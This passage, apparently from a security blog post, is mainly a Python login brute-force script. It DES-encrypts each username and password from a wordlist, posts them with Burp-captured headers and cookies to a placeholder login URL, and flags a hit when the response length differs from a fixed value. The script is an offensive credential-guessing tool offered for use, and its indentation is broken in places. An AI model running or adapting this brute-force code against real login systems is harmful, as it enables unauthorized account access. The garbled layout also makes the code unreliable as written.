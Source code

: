 ```bash
                    print uname
                    desUsername = mzDes(s,uname)
                    print desUsername

                    pwd = pwds.readlines()
                    for p in pwd:
                        passwd = p.strip()
                        print passwd
                        desPassword = mzDes(s,passwd)
                        print desPassword




                        burp0_url = "https://yyy.xxx.com:443/login"
                        burp0_cookies = {"acw_tc": "2", "session.id": "5e"}
                        burp0_headers = {"User-Agent": "Mozilla/5.0 Firefox", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Content-Type": "application/x-www-form-urlencoded", "Origin": "https://yyy.xxx.com", "Connection": "close", "Referer": "https://yyy.xxx.com/login", "Upgrade-Insecure-Requests": "1"}
                        burp0_data = {"usernumber": "test", "username": desUsername, "password": desPassword, "geetest_challenge": "caaf52fec"}

                        rsp = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

                        #print rsp.headers['content-length']
                        #if rsp.headers['content-length'] != 23862:
                        #   print 'success!!!'
                        print len(rsp.content)
                        if len(rsp.content) != 23862:
                        print 'success'
                        successCount = successCount + 1
                        pattern = re.compile(r'<p class="login-error" id="errorTips">(.*?)</p>')

                        bruteResult = pattern.search(rsp.text)
                        print bruteResult

print successCount
```

[![](assets/1698897578-9f2b70ee30d24cf04292f94aeb4284d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200206160200-f3f6ab2e-48b6-1.png)

